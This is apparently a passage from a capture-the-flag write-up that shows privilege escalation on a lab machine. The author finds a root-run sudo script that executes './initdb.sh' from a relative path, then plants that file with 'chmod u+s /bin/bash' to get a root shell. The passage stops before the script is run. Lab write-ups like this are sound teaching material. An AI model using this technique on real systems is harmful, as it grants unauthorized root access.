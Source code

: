 Checking for what commands can be run by out user with sudo previlege using `sudo -l` command:
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```
So, divr can run /usr/bin/syscheck with root previlege. Let's try to exploit this thing.

when we cat out /usr/bin/syscheck, we got that some initdb.sh file is getting executed.
```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

I tried searching for that initdb.sh but could not find. Even i used find command to search in root directory (/) but the result was disappointing 😮‍💨.
So, I thought, if there isn't such file, why don't I create it myself and let the system run it with sudo previlege?

```bash
echo "chmod u+s /bin/bash" > initdb.sh"
chmod +x initdb.sh
```
